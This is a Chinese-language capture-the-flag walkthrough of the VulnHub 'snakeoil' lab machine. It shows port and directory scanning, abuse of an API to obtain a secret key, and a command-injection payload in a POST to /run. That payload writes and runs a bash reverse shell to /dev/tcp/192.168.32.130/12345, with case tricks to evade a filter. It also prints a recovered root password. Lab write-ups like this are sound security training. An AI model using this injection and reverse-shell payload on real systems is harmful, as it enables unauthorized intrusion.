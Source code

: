 # digitalworld.local: snakeoil

> https://download.vulnhub.com/digitalworld/SNAKEOIL.7z

靶场IP：`192.168.32.204`

扫描对外端口服务

```
┌──(root💀kali)-[/tmp]
└─# nmap -p 1-65535 -sV  192.168.32.204
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-06 00:04 EDT
Nmap scan report for 192.168.32.204
Host is up (0.00090s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http    nginx 1.14.2
8080/tcp open  http    nginx 1.14.2
MAC Address: 00:0C:29:89:70:64 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.17 seconds
```

访问80端口

![image-20220906120504561](../../.gitbook/assets/image-20220906120504561.png)

访问8080端口

![image-20220906120542811](../../.gitbook/assets/image-20220906120542811.png)

爆破web目录

```
┌──(root💀kali)-[/tmp]
└─# ffuf -u http://192.168.32.204:8080/FUZZ -w  /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt  -ic -c  -e .php,.html  -mc all -fc 403,404 -fl 45,47,51 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.32.204:8080/FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Extensions       : .php .html 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response status: 403,404
 :: Filter           : Response lines: 45,47,51
________________________________________________

                        [Status: 200, Size: 2882, Words: 598, Lines: 71, Duration: 36ms]
login                   [Status: 405, Size: 64, Words: 10, Lines: 2, Duration: 57ms]
users                   [Status: 200, Size: 140, Words: 5, Lines: 2, Duration: 56ms]
registration            [Status: 200, Size: 29, Words: 3, Lines: 2, Duration: 41ms]
test                    [Status: 200, Size: 17, Words: 2, Lines: 2, Duration: 44ms]
create                  [Status: 200, Size: 2596, Words: 447, Lines: 61, Duration: 56ms]
secret                  [Status: 500, Size: 37, Words: 4, Lines: 2, Duration: 68ms]
run                     [Status: 405, Size: 178, Words: 20, Lines: 5, Duration: 48ms]
                        [Status: 200, Size: 2882, Words: 598, Lines: 71, Duration: 46ms]

```

访问`/registration`，提示方法错误

![image-20220906122105146](../../.gitbook/assets/image-20220906122105146.png)

修改post方法，提示缺少`username`

![image-20220906122134210](../../.gitbook/assets/image-20220906122134210.png)

添加`username`字段，提示缺少`password`

![image-20220906122459393](../../.gitbook/assets/image-20220906122459393.png)

注册成功，返回`access_token`

![image-20220906122536882](../../.gitbook/assets/image-20220906122536882.png)

访问`/run`，提示方法错误

![image-20220906122633057](../../.gitbook/assets/image-20220906122633057.png)

提示需要URL

![image-20220906122911522](../../.gitbook/assets/image-20220906122911522.png)

添加url，提示需要访问密钥。

![image-20220906123020395](../../.gitbook/assets/image-20220906123020395.png)

查看文档，找到`access_token_cookie`字段

![image-20220906123323468](../../.gitbook/assets/image-20220906123323468.png)

获取到`secret_key`

![image-20220906123540465](../../.gitbook/assets/image-20220906123540465.png)

然后再回到run页面，加上我们刚刚获得的secret_key，成功得到信息

![image-20220906123631203](../../.gitbook/assets/image-20220906123631203.png)

拿这个开头的信息去查一下发现是curl执行的统计信息，尝试命令注入，发现成功返回信息

![image-20220906124315157](../../.gitbook/assets/image-20220906124315157.png)

直接反弹shell

```
POST /run HTTP/1.1
Host: 192.168.32.204:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/json
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 230


{
"url":"--help >/dev/null ; echo '#!/BIN/BASH' >1.sh; echo 'BASH -i > /DEV/TCP/192.168.32.130/12345 0>&1 2>&1' >> 1.sh; tr [:upper:] [:lower:] <1.sh > 2.sh; chmod +x 2.sh; ./2.sh ;",
"secret_key":"commandexecutionissecret"
}
```

![image-20220906124714505](../../.gitbook/assets/image-20220906124714505.png)

查看文件，找到密码：`NOreasonableDOUBTthisPASSWORDisGOOD`

![image-20220906132929796](../../.gitbook/assets/image-20220906132929796.png)

su成功

![image-20230208134835505](../../.gitbook/assets/image-20230208134835505.png)
